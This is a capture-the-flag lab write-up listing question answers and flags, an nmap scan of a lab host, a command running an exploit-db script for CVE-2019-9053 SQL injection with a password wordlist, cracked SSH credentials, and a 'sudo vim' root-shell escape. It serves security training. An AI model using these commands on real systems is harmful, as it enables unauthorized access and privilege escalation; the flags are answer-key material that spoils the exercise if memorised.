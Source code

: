 # EastCTF
##### Question 1: How many services are running under port 1000?
Answer
```bash
2
```

##### Question 2: What is running on the higher port?
Answer
```bash
ssh
```

##### Question 3: What's the CVE you're using against the application?
Answer
```bash
CVE-2019-9053
```

##### Question 4: To what kind of vulnerability is the application vulnerable?
Answer
```bash
sqli
```

##### Question 5: What's the password?
Answer
```bash
secret
```

##### Question 6: Where can you login with the details obtained?
Answer
```bash
ssh
```

##### Question 7: What's the user flag?
Answer
```bash
G00d j0b, keep up!
```

##### Question 8: Is there any other user in the home directory? What's its name?
Answer
```bash
sunbath
```

##### Question 9: What can you leverage to spawn a privileged shell?
Answer
```bash
vim
```

##### Question 10: What's the root flag?
Answer
```bash
W3ll d0n3. You made it!
```

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -  - - - 

Nmap Scans:
```bash

Nmap scan report for 10.10.135.95
Host is up (0.11s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.32.32
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)


```

script to get mitch login
https://www.exploit-db.com/exploits/46635

```bash

/46635.py -u http://10.10.135.95/simple/ --crack -w /usr/share/wordlists/rockyou.txt
```
ssh creds: mitch:secret

sudo vim priv esc
```bash
sudo vim -c ':!/bin/sh'
```